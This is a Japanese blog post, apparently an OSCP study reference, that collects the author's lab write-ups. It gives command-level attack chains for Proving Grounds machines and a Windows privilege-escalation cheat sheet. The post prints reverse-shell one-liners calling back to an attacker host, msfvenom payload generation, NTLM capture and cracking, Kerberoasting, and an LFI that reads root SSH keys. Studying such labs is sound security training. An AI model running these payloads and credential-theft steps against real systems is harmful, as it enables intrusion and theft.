






```mermaid
flowchart LR
    A[feroxbuster ポート 3000 → Cassandra Web 発見] --> B[LFI 49362 → /proc/self/cmdline]
    B --> C[cassie:SecondBiteTheApple330 を抽出]
    C --> D[LFI → freeswitch event_socket.conf.xml]
    D --> E[StrongClueConEight021 を抽出]
    E --> F[searchsploit freeswitch → EDB-47799 → freeswitch ユーザーで RCE]
    F --> G[sudo -u root cassandra-web -B 0.0.0.0:1337]
    G --> H[ポート 1337 で root として LFI → /root/.ssh/id_rsa 読み取り]
    H --> I[ssh root@ip -i id_rsa]
```

## TL;DR

本ブログの全 Windows Writeup — **TryHackMe (44)・HackTheBox (8)・Proving Grounds (8)** — を **OSCP 試験スタイルの手動攻撃（Metasploit なし）** に絞って分析・体系化したリファレンス。

Proving Grounds マシンは OSCP 試験難度に最も近いため、**コマンドレベルで全4マシンを詳解する**。

> **PG カテゴリについての注記:** `pg-apex`・`pg-bratarina`・`pg-clue` はこのブログで `[Proving Grounds, Windows]` に分類されているが、シェル出力・SMB バナー（`Samba, Ubuntu`・`/bin/bash`）から実際は **Linux ホスト**であることが確認できる。各エントリで実 OS を明記した上で全て収録している。

**頻度別 手法ランキング（OSCP 試験での利用可否付き）:**

| 順位 | 手法 | カテゴリ | OSCP 試験で使用可能? |
|------|------|----------|---------------------|
| 1 | SeImpersonatePrivilege → Potato / PrintSpoofer | トークン悪用 | 可 |
| 2 | Kerberoasting（GetUserSPNs） | Active Directory | 可 |
| 3 | サービス設定不備（binPath / 弱い ACL） | ローカル設定不備 | 可 |
| 4 | 書き込み可能スクリプト + 特権スケジューラー | ローカル設定不備 | 可 |
| 5 | GPP / cpassword / 保存済み資格情報 | 資格情報露出 | 可 |
| 6 | AlwaysInstallElevated | ローカル設定不備 | 可 |
| 7 | AS-REP Roasting + ACL チェーン | Active Directory | 可 |
| 8 | CVE / 公開エクスプロイト（searchsploit） | 既知 CVE | 可（手動のみ） |
| 9 | LFI → 設定ファイル資格情報抽出 | Web 脆弱性 | 可 |
| 10 | NTLM キャプチャ（Responder）→ hashcat | 資格情報悪用 | 可 |

---

## データセット概要

### プラットフォーム別 Writeup 数



### 権限昇格カテゴリ別 観測数



---

## Proving Grounds — 全 Writeup 詳細分析

Proving Grounds マシンは OSCP 試験との親和性が最も高い。このセクションで全4マシンをコマンドレベルで解説する。

### PG — Craft2（Windows 10）

**[→ 全 Writeup](/posts/pg-craft2/)**

| 項目 | 内容 |
|------|------|
| 実際の OS | Windows 10（Version 10.0.17763.2746） |
| 侵入経路 | Bad-ODF NTLM キャプチャ → 資格情報再利用 → PHP Web シェル |
| 権限昇格 | CVE-2020-1337（WerTrigger）— MySQL LOAD_FILE DLL インジェクション |
| OSCP スタイル | 100% 手動 — Metasploit なし |

**フルアタックチェーン:**



**主要コマンド:**

```bash
# 1. 悪意のある ODF ドキュメント生成（開封時に NTLM を漏洩させる）
python3 Bad-ODF.py   # 攻撃者 IP を入力 → bad.odt が生成される

# 2. NTLMv2 ハッシュをキャプチャ
sudo responder -I tun0 -v
# → THECYBERGEEK::CRAFT2:<ハッシュ>

# 3. hashcat でクラック
hashcat -m 5600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
# → winniethepooh

# 4. 書き込み可能な SMB 共有にアクセス
smbclient //$ip/Webapp -U 'thecybergeek%winniethepooh' -m SMB3 -c 'put ./cmd.php'

# 5. リバースシェル DLL を生成
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f dll -o phoneinfo.dll

# 6. chisel で MySQL ポートをトンネル
./chisel server -p 8000 --reverse                              # 攻撃者側
.\chisel.exe client $KALI:8000 R:3306:127.0.0.1:3306          # 標的側

# 7. MySQL 経由で DLL を System32 に書き込み
mysql -u root -h 127.0.0.1 -P 3306
# > SELECT LOAD_FILE('C:\\Users\\Public\\phoneinfo.dll') INTO DUMPFILE "C:\\Windows\\System32\\phoneinfo.dll";

# 8. WER が DLL をロードするよう誘導 → SYSTEM シェル取得
certutil -urlcache -f http://$KALI/WerTrigger.exe WerTrigger.exe
.\WerTrigger.exe
```

**OSCP へのエッセンス:**
- Responder + hashcat は OSCP で最も標準的な NTLM 資格情報取得ワークフロー
- 内部サービスに直接到達できない場合は chisel でのポートフォワードが必須
- `certutil -urlcache -f` は Windows でのファイルダウンロードの定番（PowerShell 不要）
- CVE-2020-1337 は「DB の FILE 権限 → ファイルシステム書き込み → DLL ハイジャック」という創造的なチェーン

---

### PG — Apex（Linux/Samba — Windows タグ付き）

**[→ 全 Writeup](/posts/pg-apex/)**

| 項目 | 内容 |
|------|------|
| 実際の OS | **Linux（Ubuntu）** — ブログでは Windows タグ |
| 侵入経路 | OpenEMR LFI（CVE-2018-17179）→ sqlconf.php 資格情報抽出 |
| 権限昇格 | データベース資格情報の再利用（mysql -u openemr） |
| OSCP スタイル | 手動 CVE 利用 |

**アタックチェーン:**



**主要コマンド:**

```bash
# SMB 列挙 — PDF から動作アプリを特定
smbclient -L //$ip -N
smbclient //$ip/docs -m SMB3   # OpenEMR の PDF が見つかる

# OpenEMR LFI エクスプロイト
python3 49359.py http://$ip PHPSESSID=<session> /etc/passwd
python3 49359.py http://$ip PHPSESSID=<session> /var/www/openemr/sites/default/sqlconf.php

# 抽出した資格情報で MySQL 接続
mysql -h $ip -u openemr -pC78maEQUIEuQ --skip-ssl
```

**OSCP へのエッセンス:**
- SMB 共有のファイル内容がアプリを特定し、searchsploit への直接パスを開く
- LFI は設定ファイル（`sqlconf.php`・`.env`・`config.php`）への読み取りで資格情報を効率的に取得できる
- LFI を持ったら必ず `/proc/self/cmdline` とアプリ固有の設定パスを試すこと

---

### PG — Bratarina（Linux/Samba — Windows タグ付き）

**[→ 全 Writeup](/posts/pg-bratarina/)**

| 項目 | 内容 |
|------|------|
| 実際の OS | **Linux（Samba）** — ブログでは Windows タグ |
| 侵入経路 | SMB 匿名 → passwd.bak → OpenSMTPD RCE（CVE-2020-7247） |
| 権限昇格 | エクスプロイト自体が root シェルを返すため個別の権限昇格ステップなし |
| OSCP スタイル | searchsploit を用いた手動 CVE 利用 |

**アタックチェーン:**



**主要コマンド:**

```bash
# SMB 匿名列挙
smbclient "//$ip/backups" -N -m SMB3   # → passwd.bak ダウンロード

# ポート 25 バナー確認
nc -vn $ip 25   # → 220 bratarina ESMTP OpenSMTPD

# エクスプロイトの検索と利用
searchsploit opensmtpd
searchsploit -m 47984
python3 47984.py $ip 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"$KALI\",80));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn(\"/bin/bash\")"'
```

**OSCP へのエッセンス:**
- SMB の匿名バックアップ共有は高確率でファイルを含む — 読み取れる全共有を必ず `ls` する
- ポート 25 でバナー確認 → バージョン特定 → searchsploit は再現性の高いワークフロー
- OpenSMTPD は root で動作するため、エクスプロイトで即座に root シェルを取得できる（権限昇格不要）
- `searchsploit -m <EDB-ID>` でエクスプロイトをカレントディレクトリにコピーするのが定番

---

### PG — Clue（Linux/Debian — Windows タグ付き）

**[→ 全 Writeup](/posts/pg-clue/)**

| 項目 | 内容 |
|------|------|
| 実際の OS | **Linux（Debian）** — ブログでは Windows タグ |
| 侵入経路 | Cassandra Web LFI（EDB-49362）→ 資格情報抽出 → FreeSWITCH RCE |
| 権限昇格 | sudo 設定不備 → cassandra-web が root で起動 → LFI を再利用して SSH 秘密鍵を読み取り |
| OSCP スタイル | 手動多段チェーン攻撃 |

**アタックチェーン:**



**主要コマンド:**

```bash
# LFI でプロセスの資格情報を抽出
python3 49362.py $ip -p 3000 ../../../../../../../../proc/self/cmdline
# → /usr/bin/ruby2.5/usr/local/bin/cassandra-web-ucassie-pSecondBiteTheApple330

# LFI で FreeSWITCH 設定を読み取り
python3 49362.py $ip -p 3000 ../../../../../../../../etc/freeswitch/autoload_configs/event_socket.conf.xml
# → password: StrongClueConEight021

# FreeSWITCH RCE（抽出したパスワードで認証）
searchsploit freeswitch
python3 47799.py $ip 'nc -e /bin/sh $KALI 3000'

# 権限昇格: sudo で cassandra-web を root として起動 → 新たな LFI 面が生まれる
sudo -u root /usr/local/bin/cassandra-web -B 0.0.0.0:1337 -u cassie -p SecondBiteTheApple330
# ポート 1337 の LFI が root 権限で動作するようになる
python3 49362.py $ip -p 1337 ../../../../../../../../root/.ssh/id_rsa
ssh root@$ip -i id_rsa
```

**OSCP へのエッセンス:**
- LFI を持ったら `/proc/self/cmdline` を必ず試す — コマンドライン引数に平文パスワードが含まれることがある
- サービス設定ファイル（freeswitch・apache・nginx）は資格情報の宝庫 — LFI があるなら必ず確認する
- `sudo -l` → root でアプリを起動 → そのアプリ自身が LFI を持つ場合、チェーンを延長できる
- root 権限の LFI から SSH 秘密鍵を抜き取るというパターンを頭に入れておく

---

## Windows 固有の権限昇格手法（OSCP リファレンス）

### SeImpersonatePrivilege → トークン悪用

```powershell
whoami /priv   # → SeImpersonatePrivilege   Enabled を確認
```

```cmd
:: ファイル転送
certutil -urlcache -split -f http://$KALI/GodPotato.exe C:\Temp\GodPotato.exe

:: GodPotato（Server 2012 ～ Windows 11 まで全対応）
.\GodPotato.exe -cmd "nc.exe $KALI 4444 -e cmd.exe"

:: PrintSpoofer（Windows 10 / Server 2019）
.\PrintSpoofer64.exe -i -c cmd
```

**観測事例:** [THM - Alfred](/posts/thm-alfred/) — Jenkins → SeImpersonate → PrintSpoofer → SYSTEM

---

### Kerberoasting

```bash
python3 GetUserSPNs.py -request -dc-ip $ip DOMAIN/user:'pass' -outputfile hash.txt
hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

**観測事例:** [HTB - Active](/posts/htb-active/), [THM - Corp](/posts/thm-corp/)

---

### サービス設定不備

```cmd
accesschk.exe /accepteula -uwcqv "Users" *
sc config <service> binPath= "C:\Temp\shell.exe"
sc stop <service> && sc start <service>
```

**観測事例:** [THM - Windows PrivEsc Arena](/posts/thm-windows-privesc-arena/)

---

### 書き込み可能スクリプト + スケジュールタスク

```cmd
:: winPEAS が報告: File Permissions "C:\DevTools\CleanUp.ps1": Users [WriteData/CreateFiles]
echo C:\Temp\shell.exe >> C:\DevTools\CleanUp.ps1
rlwrap -cAri nc -lvnp 443   :: タスク発火時に SYSTEM シェルを受信
```

**観測事例:** [THM - Windows PrivEsc](/posts/thm-windows-privesc/)

---

### GPP / cpassword

```bash
smbclient //$ip/Replication -N   # → Groups.xml を見つける
gpp-decrypt "<cpassword>"
```

**観測事例:** [HTB - Active](/posts/htb-active/)

---

### AlwaysInstallElevated

```cmd
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=4444 -f msi -o shell.msi
```

```cmd
msiexec /quiet /qn /i C:\Temp\shell.msi
```

**観測事例:** [THM - Windows PrivEsc Arena](/posts/thm-windows-privesc-arena/)

---

### AS-REP Roasting + BloodHound

```bash
python3 GetNPUsers.py htb.local/ -no-pass -usersfile users.txt -dc-ip $ip -format hashcat
hashcat -m 18200 asrep.txt rockyou.txt
bloodhound-python -d htb.local -u svc-alfresco -p <pass> -c All -ns $ip
```

**観測事例:** [HTB - Forest](/posts/htb-forest/)

---

### 保存済み資格情報

```powershell
Get-Content C:\Windows\Panther\Unattend\Unattended.xml
cmdkey /list
reg query HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
findstr /si password *.txt *.xml *.ini *.config
```

**観測事例:** [THM - Corp](/posts/thm-corp/)

---

## OSCP 試験向け 権限昇格 判断フロー



---

## ファイル転送 — OSCP 必須コマンド集

```cmd
:: certutil — 全 Windows にプリインストール済み、最も安定
certutil -urlcache -split -f http://$KALI:8000/file.exe C:\Temp\file.exe

:: curl（Windows 10 以降ビルトイン）
curl http://$KALI:8000/file.exe -o C:\Temp\file.exe

:: bitsadmin（古いシステム向け）
bitsadmin /transfer job http://$KALI:8000/file.exe C:\Temp\file.exe
```

```bash
# Kali 側でファイルを配信
python3 -m http.server 8000
impacket-smbserver share . -smb2support -username guest -password ""
```

---

## chisel によるポートフォワード

```bash
# 攻撃者側
./chisel server -p 8000 --reverse

# 標的側（Windows）— 内部 MySQL を公開
.\chisel.exe client $KALI:8000 R:3306:127.0.0.1:3306

# SOCKS5 プロキシ（内部ネットワーク全体へのアクセス）
.\chisel.exe client $KALI:8000 R:socks
```

---

## 列挙チェックリスト

```powershell
whoami /all
systeminfo
wmic qfe get Caption,HotFixID
sc query state= all
accesschk.exe /accepteula -uwcqv "Users" *
wmic service get name,pathname,startmode | findstr /iv "C:\Windows\\" | findstr /iv "\""
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
schtasks /query /fo LIST /v
cmdkey /list
Get-Content C:\Windows\Panther\Unattend\Unattended.xml
findstr /si password *.txt *.xml *.ini *.config
.\winPEASx64.exe
```

---

## Writeup 参照インデックス — 全網羅

### Proving Grounds（OSCP 最優先）

| マシン | 実際の OS | 侵入経路 | 権限昇格 | リンク |
|--------|-----------|----------|---------|-------|
| **Craft2** | Windows 10 | Bad-ODF NTLM → Web シェル | CVE-2020-1337（WerTrigger + DLL） | [→](/posts/pg-craft2/) |
| **Apex** | Linux（Ubuntu） | OpenEMR LFI（CVE-2018-17179） | sqlconf.php → MySQL 資格情報 | [→](/posts/pg-apex/) |
| **Bratarina** | Linux（Samba） | OpenSMTPD RCE（CVE-2020-7247） | エクスプロイトで直接 root | [→](/posts/pg-bratarina/) |
| **Clue** | Linux（Debian） | Cassandra Web LFI → FreeSWITCH RCE | sudo → root として LFI 再利用 | [→](/posts/pg-clue/) |

### HackTheBox Windows

| マシン | 侵入経路 | 権限昇格 | リンク |
|--------|----------|---------|-------|
| **Active** | SMB null → GPP cpassword | Kerberoasting → Domain Admin | [→](/posts/htb-active/) |
| **Forest** | LDAP ユーザー列挙 | AS-REP Roast → BloodHound → DCSync | [→](/posts/htb-forest/) |
| **Fluffy** | （Writeup 参照） | （Writeup 参照） | [→](/posts/htb-fluffy/) |
| **Legacy** | （Writeup 参照） | （Writeup 参照） | [→](/posts/htb-legacy/) |

### TryHackMe Windows（主要マシン）

| マシン | 侵入経路 | 権限昇格 | リンク |
|--------|----------|---------|-------|
| **Windows PrivEsc** | ローカルシェル | 書き込み可スクリプト + SYSTEM スケジューラー | [→](/posts/thm-windows-privesc/) |
| **Windows PrivEsc Arena** | RDP | サービス設定不備・AlwaysInstallElevated・引用符なしパス | [→](/posts/thm-windows-privesc-arena/) |
| **Alfred** | Jenkins デフォルト認証 | SeImpersonate → PrintSpoofer | [→](/posts/thm-alfred/) |
| **Corp** | ローカル RDP | Kerberoasting + Unattend.xml | [→](/posts/thm-corp/) |
| **Retro** | WordPress 資格情報 → RDP | カーネルエクスプロイト | [→](/posts/thm-retro/) |
| **Steel Mountain** | Rejetto HFS CVE | サービス設定悪用 | [→](/posts/thm-steel-mountain/) |
| **HackPark** | Web ブルートフォース | （Writeup 参照） | [→](/posts/thm-hackpark/) |
| **Blaster** | （Writeup 参照） | （Writeup 参照） | [→](/posts/thm-blaster/) |
| **Holo** | （Writeup 参照） | （Writeup 参照） | [→](/posts/thm-holo/) |
| **Stealth** | （Writeup 参照） | （Writeup 参照） | [→](/posts/thm-stealth/) |
| **Attacking Kerberos** | Kerberos 攻撃 | AD ラボ | [→](/posts/thm-attacking-kerberos/) |
| **Attacktive Directory** | AD ラボ | AD ラボ | [→](/posts/thm-attacktive-directory/) |

### 関連 TechBlog 記事

| 記事 | リンク |
|------|-------|
| Windows Potato PrivEsc ガイド（GodPotato ～ Hot Potato 全解説） | [→](/posts/tech-windows-potato-privesc/) |
| PsExec ラテラルムーブメント | [→](/posts/tech-psexec-lateral-movement/) |
| NTLM リレー（ntlmrelayx） | [→](/posts/tech-ntlmrelayx-attack-guide/) |
| Kerberoasting（GetUserSPNs 詳解） | [→](/posts/tech-getuserspns-kerberoasting/) |
| RBCD 攻撃 | [→](/posts/tech-rbcd-attack-guide/) |
| AD CS / Certipy | [→](/posts/tech-certipy-adcs-attack/) |

---

## OSCP 受験者への5つの教訓

1. **バナー確認 → searchsploit が最初のアクション。** Bratarina は `nc $ip 25` でバージョン確認 → searchsploit → 公開エクスプロイト実行という3ステップで解決した。OSCP 本番でも同じパターンが頻出する。

2. **LFI は `/etc/passwd` だけではない。** Clue と Apex は `/proc/self/cmdline`・アプリ設定ファイル・サービス設定への LFI が資格情報を直接抽出できることを示している。

3. **chisel によるポートフォワードは必須スキル。** Craft2 では標的内部の MySQL を Kali から見えるようにするために chisel が必要だった。`server/client` の構文とリバースポートフォワードの記法を暗記しておくこと。

4. **Responder は Windows 攻撃の「開幕手」として有効。** ファイルを取得させられる Windows ホストは必ず NTLMv2 を漏洩する。Craft2 は ODF ドキュメントがそのトリガーになった。

5. **Web / DB サービスのシェルは SeImpersonatePrivilege を持つことが多い。** IIS・XAMPP（apache）・Jenkins・SQL Server のシェルを取ったら、最初に必ず `whoami /priv` を確認する。GodPotato は Server 2012 から Windows 11 まで全対応している。

---

## 参照リンク

- [Potatoes Windows Privesc — Jorge Lajara](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)
- [GodPotato](https://github.com/BeichenDream/GodPotato)
- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)
- [PayloadsAllTheThings — Windows PrivEsc](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)
- [BloodHound](https://github.com/BloodHoundAD/BloodHound)
- [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [Impacket](https://github.com/fortra/impacket)
- [chisel](https://github.com/jpillora/chisel)
- [CVE-2020-7247（OpenSMTPD）](https://nvd.nist.gov/vuln/detail/CVE-2020-7247)
- [CVE-2020-1337（WerTrigger）](https://nvd.nist.gov/vuln/detail/CVE-2020-1337)
- [CVE-2018-17179（OpenEMR）](https://nvd.nist.gov/vuln/detail/CVE-2018-17179)
